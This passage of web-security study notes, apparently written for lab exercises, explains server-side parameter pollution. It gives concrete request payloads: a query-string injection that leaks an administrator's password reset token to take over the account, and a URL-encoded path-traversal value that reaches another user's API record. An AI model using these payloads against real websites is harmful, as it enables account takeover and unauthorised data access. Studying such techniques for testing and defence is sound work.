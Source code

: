 Remember to analyse the JavaScript files as well such as `forgotPassword.js` which may include a password reset endpoint such as:

```bash
/forgot-password?reset_token=${resetToken}
```

Attempt to change the value of `field` to `reset_token` and resend - if it returns a password reset token, save it:

```html
csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator%26field=reset_token%23
```

Try navigating to the endpoint with the reset token to see if it works. The request below could be submitted to successfully reset the password for the admin user:

```html
GET /forgot-password?reset_token=TOKEN-VALUE HTTP/2
```
# Server-Side Parameter Pollution in REST Paths

RESTful APIs may use parameter names and values in the URL such as:

```html
/api/users/123
```

Consider an app that can edit user profiles based on their username. Requests are sent to:

```html
GET /edit_profile.php?name=peter
```

Resulting in the server-side request of:

```html
GET /api/private/users/peter
```

Try manipulating server-side URL path parameters by adding path traversal sequences to modify parameters. For example, submit URL-encoded `peter/../admin` as the value of `name`:

```html
GET /edit_profile.php?name=peter%2f..%2fadmin
```

Which may result in:

```html
GET /api/private/users/peter/../admin
```

>[!info]
>If the server-side client or backend API normalize the path, it may be resolved to /api/private/users/admin.
# Server-Side Parameter Pollution in Structured Data Formats
